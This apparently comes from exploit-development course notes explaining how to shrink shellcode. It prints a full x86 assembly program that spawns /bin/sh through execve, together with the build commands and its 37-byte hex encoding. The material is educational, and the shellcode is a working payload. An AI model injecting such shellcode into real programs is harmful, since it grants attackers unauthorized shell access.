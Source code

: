 Reducing the Size of Shell Code
===============================

Shell code has three main properties: (1) it executes a system call to
open a shell or do some other action; (2) it does not contain null
bytes; and (3), it is small. So far, the shell code we've developed is
37 bytes. Let's review that piece of shell code now:

``` {.asm}
;;long_shell.asm
SECTION .text           ; Code section
            global _start   ; Make label available to linker

_start:             ; Standard ld entry point

     jmp callback       ; Jump to the end to get our current address

dowork:
     pop esi        ; esi now holds the address of "/bin/sh"

     xor edx,edx        ; edx = 0 (it's also param #3 - NULL)
     push edx       ; args[1] - NULL
     push esi       ; args[0] - "/bin/sh"

     mov ecx,esp        ; Param #2 - address of args array
     mov ebx,esi        ; Param #1 - "/bin/sh"
     xor eax,eax        ; eax = 0
     mov al,0xb         ; System call number for execve
     int 0x80       ; Interrupt 80 hex - invoke system call

     xor ebx,ebx        ; Exit code, 0 = normal
     xor eax,eax        ; eax = 0
     inc eax        ; System call number for exit (1)
     int 0x80       ; Interrupt 80 hex - invoke system call

callback:
     call dowork        ; Pushes the address of "/bin/sh" onto the stack
     db "/bin/sh",0     ; The program we want to run - "/bin/sh"

```

To see it's current size, let's compile and use the hexify program to
count the number of bytes:

``` {.example}
user@si485H-base:demo$ nasm -g -f elf -o long_shell.o long_shell.asm
user@si485H-base:demo$ ld  -o long_shell long_shell.o
user@si485H-base:demo$ ./hexify.sh long_shell
\xeb\x16\x5e\x31\xd2\x52\x56\x89\xe1\x89\xf3\x31\xc0\xb0\x0b\xcd\x80\x31\xdb\x31\xc0\x40\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00
user@si485H-base:demo$ printf `./hexify.sh long_shell` | wc -c
37
```
